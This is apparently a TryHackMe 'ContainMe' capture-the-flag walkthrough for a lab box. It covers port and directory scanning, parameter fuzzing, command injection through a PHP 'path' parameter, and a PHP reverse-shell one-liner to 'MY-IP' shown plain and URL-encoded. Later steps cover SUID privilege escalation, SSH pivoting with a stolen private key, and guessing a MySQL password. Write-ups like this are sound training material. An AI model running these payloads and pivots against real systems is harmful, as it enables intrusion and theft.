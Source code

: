 # [ContainMe (TryHackMe)](https://tryhackme.com/room/containme1)

First, let's scan this thing: 

<code>rustscan -a 10.10.163.146</code>

![PIC_RUST](https://user-images.githubusercontent.com/93183445/141817607-4bf1e9a5-bb79-4117-9c40-a9a2a173efb0.png)

After that, just to be sure, nmap follows: 

<code>nmap -sV -sC -p22,80,2222,8022 10.10.163.146</code>

![PIC_NMAP](https://user-images.githubusercontent.com/93183445/141818585-cd585f86-3984-4137-a29e-c19ffebfc1a3.png)

Let's go after some directories (I added the "-t5" option at the end, because I got a lot of errors): 

<code>feroxbuster --url http://10.10.163.146 -w /usr/share/wordlists/dirb/common.txt -t 5</code>

![PIC_FEROX](https://user-images.githubusercontent.com/93183445/141819090-47390871-02a1-47e9-87e5-7a678fe70824.png)

The index.php shows a directory listing. Let's look at the source.

![PIC_INDEX_1](https://user-images.githubusercontent.com/93183445/141818220-71e224fc-9695-4f2c-bc05-f4efb6375f05.png)

Looks like we're going to search for the path. At this point I try to keep in mind that this 
box is marked as "easy"... Let's go for it!!

Tried a few things, but didn't find anything with directory bruteforcing. Maybe it is a parameter?

<code>ffuf -u http://10.10.163.146/index.php?FUZZ=a -w /usr/share/wordlists/dirb/common.txt</code>

This command spat out an incredible amount of responses. All with status 200. But they all had the same response
size. Let's filter that out and see what happens:

<code>ffuf -u http://10.10.163.146/index.php?FUZZ=a -w /usr/share/wordlists/dirb/common.txt -fs 329</code>

The outcome was:\
<code>path                    [Status: 200, Size: 79, Words: 9, Lines: 11]</code>

So we found the path.
As we could view the directory listing earlier and this is a box marked as easy, I tried simple rce
like id, whoami and so on. Nothing seemed to work.
The only thing that gave something back, was `ls` and `pwd`
(with backticks). So just the directory listing is enabled, it seems.\
So why not try "/"? Bingo..\
I'm able to see the directory listing of "/".\
With this opportunity given, I wanted to take a look in the home directory.\
So I found mike.

![PIC_MIKE](https://user-images.githubusercontent.com/93183445/141819141-6e26bff1-fa75-4ce1-9dd8-cb29e4da2a47.png)

But mike wasn't of great use, since I couldn't read or list the content of ".ssh/".

Still reminding me that this is a box marked as "easy", I tried command injection. With success:

![PIC_WHOAMI](https://user-images.githubusercontent.com/93183445/141819181-05119d8a-1653-4fed-bb16-85babe95f8df.png)

It took me a few tries just to end up using php and url-encoding after I wasn't able to netcat or wget anything.\
(Should have noticed earlier, because there's a lot of php going on..)\
Again, https://www.revshells.com to the rescue :)

<code>php -r '$sock=fsockopen("MY-IP",9001);exec("sh <&3 >&3 2>&3");'</code>\
Urlencoded we get:\
<code>php%20-r%20%27%24sock%3Dfsockopen%28%22MY-IP%22%2C9001%29%3Bexec%28%22sh%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27</code>

Add this to the URL in the browser after starting a listener, and we get a callback :)

![PIC_CALLBACK](https://user-images.githubusercontent.com/93183445/141820541-5533b0a1-1f27-4561-9500-106cb802d846.png)

Stabilize the shell with python3:\
<code>python3 -c 'import pty;pty.spawn("/bin/bash")'</code>

Then check mike's home directory (remember the .ssh/ folder from before).\
But we get a "Permission denied". We're still www-data. But there's a binary file we are allowed to execute.\
Let's do that. Nothing happens. Except the fancy output telling us "CRYPTSHELL"..\
Again, trying to keep in mind this being a simple box, I append "mike" for the execution of the binary.\
This time, it took a few seconds to respond, so there's clearly something going on..\
Time for a search after files we are able to execute:

![PIC_CRYPT_1](https://user-images.githubusercontent.com/93183445/141819398-ead3d135-c25a-4df7-a6a2-c852c9080f5d.png)

Looks like we found something interesting..

![PIC_CRYPT_2](https://user-images.githubusercontent.com/93183445/141819430-cf877c52-1037-4575-8211-482a5e729231.png)

Trying the same again with this binary, things take an interesting turn:

![PIC_CRYPT_3](https://user-images.githubusercontent.com/93183445/141819452-30f55aaa-1464-4f43-90d6-d4c042520acd.png)

Welcome to the root-fest :).\
But no luck, the root directory is pretty much empty..\
The hostname is "host1", so maybe there's a number2?

The following just didn't work somehow..

<code>for i in {1..254} ;do (ping -c 1 172.16.20.$i | grep "bytes from" &) ;done</code>

I mean to some degree, because before it went on telling me
that "Destination Host Unreachable", I saw that 172.16.20.6 was up.\
So I had to stop the loop and reconnect.\
Note to self: *Better use the static nmap next time..* 

Then, the first thing I tried was to connect with the id_rsa from mikes home directory to the newly
found host (still kept in mind this is an easy box..):

<code>ssh -i /home/mike/.ssh/id_rsa mike@172.16.20.6</code>

Aaaaand we're in :)

![PIC_HOST_2](https://user-images.githubusercontent.com/93183445/141819577-4c41309d-254b-49ec-9976-188f752d0148.png)

After searching around a bit, I got to the services. And there it was: port 3306

![PIC_NETSTAT](https://user-images.githubusercontent.com/93183445/141819600-9a0629dd-87ad-463b-bcd1-ac2c7f00ca93.png)

Taking a look at /etc/passwd revealed that there's no other user than mike. So let's get into the database.
It has to be good for something at least..

I tried to login a few times keeping the passwords rather simple. Then I succeeded with:

<code>mysql -umike -ppassword</code> 

Working my way towards the contents of the database gave me the things I needed in the end :) 

![PIC_DATABASE_2](https://user-images.githubusercontent.com/93183445/141819643-05927619-7c95-4e58-ba0a-388538059103.png)

Or at least, I thought so.. (sigh). Still no root flag. 
BUT: 

![PIC_ROOT](https://user-images.githubusercontent.com/93183445/141819661-c219d315-0011-4f31-a6bf-b00a5fff87cc.png)

**Thanks :)**












